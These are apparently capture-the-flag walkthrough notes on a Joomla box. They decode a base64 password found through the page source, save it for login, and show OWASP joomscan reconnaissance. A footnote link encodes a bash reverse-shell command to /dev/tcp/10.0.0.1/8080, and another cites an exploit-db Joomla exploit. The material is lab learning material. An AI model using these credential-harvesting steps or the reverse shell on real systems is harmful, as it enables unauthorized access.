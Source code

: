 Username: Floris
```html
<p>Hey this is the first post on this amazing website! Stay tuned for more amazing content! curling2018 for the win!</p>
<p>- Floris</p>
```

Filename: secret.txt
```html
</body>
      <!-- secret.txt -->
</html>
```

secret.txt
`Q3VybGluZzIwMTgh`

### Rule: base64 decode all files if they contain alphanumeric things

```bash
base64 -d secret.txt
Curling2018!
```

	echo 'Curling2018!' > joomla-pw.txt

#### A hint that a file is base64 encoded is if it's divisible by 4

	Q3Vy bGlu ZzIw MTgh

#### A single character base64 encoded is padded to make it divisible by 4

	echo -n 1 | base64

`MQ==`

- Note: It may not have padding it were a url version of base64. base64 doesn't always have padding.

### Reconnaissance with joomscan

#### No man page; check help

	joomscan -h

```text
    ____  _____  _____  __  __  ___   ___    __    _  _ 
   (_  _)(  _  )(  _  )(  \/  )/ __) / __)  /__\  ( \( )
  .-_)(   )(_)(  )(_)(  )    ( \__ \( (__  /(__)\  )  ( 
  \____) (_____)(_____)(_/\/\_)(___/ \___)(__)(__)(_)\_)
                        (1337.today)
   
    --=[OWASP JoomScan
    +---++---==[Version : 0.0.7
    +---++---==[Update Date : [2018/09/23]
    +---++---==[Authors : Mohammad Reza Espargham , Ali Razmjoo
    --=[Code name : Self Challenge
    @OWASP_JoomScan , @rezesp , @Ali_Razmjo0 , @OWASP

   

Help :

Usage:  joomscan [options]

--url | -u <URL>                |   The Joomla URL/domain to scan.
```

[^1]: https://www.exploit-db.com/exploits/46200
[^2]: https://www.cvedetails.com/vulnerability-list/vendor_id-3496/Joomla.html
[^3]: https://explainshell.com/explain?cmd=bash+-i+%3E%26+%2Fdev%2Ftcp%2F10.0.0.1%2F8080+0%3E%261
[^4]: https://stackoverflow.com/questions/42884087/how-and-when-to-use-dev-shm-for-efficiency